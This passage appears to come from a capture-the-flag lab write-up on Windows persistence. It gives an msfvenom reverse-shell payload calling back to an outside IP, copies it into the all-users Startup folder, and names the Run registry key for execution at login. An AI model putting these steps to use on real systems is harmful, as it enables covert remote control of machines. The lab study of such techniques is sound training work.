 ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396970423/1e031184-c7b2-4818-87b0-047cd1740492.png){: .center-image }

Confirm that it has been deleted:

```powershell
schtasks /query /tn thm-taskbackdoor
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396994639/cc0066e9-e0cb-4f0b-8a76-439722b88aa1.png){: .center-image }

Grab `flag9.exe`.

### Logon Triggered Persistence

We can insert backdoors into the Windows OS Startup Folder.

Specific User:

```powershell
C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

All Users:

```powershell
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

Let's create a reverse shell payload:

```bash
msfvenom -p /windows/x64/shell_reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f exe -o revshell.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397078857/12cacee8-7c4b-4e4d-8138-b758e3b2a802.png){: .center-image }

Upload it:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397085628/3c40c879-0255-42e5-8d1a-65ebc6f70405.png){: .center-image }

Move it to the startup folder:

```powershell
copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397110873/c5e9d7ee-ba75-4fca-8dd0-52ba945ab127.png){: .center-image }

Log back into the RDP session and obtain the callback.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397124648/fc7c221d-a01c-4bda-8936-1ebab62c2bc0.png){: .center-image }

Grab `flag10.exe`.

You can also force a user to execute a program upon login through the registry. Rather than placing your payload in a particular directory, you can utilize the following registry entries to designate applications to run at login:

```powershell
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```
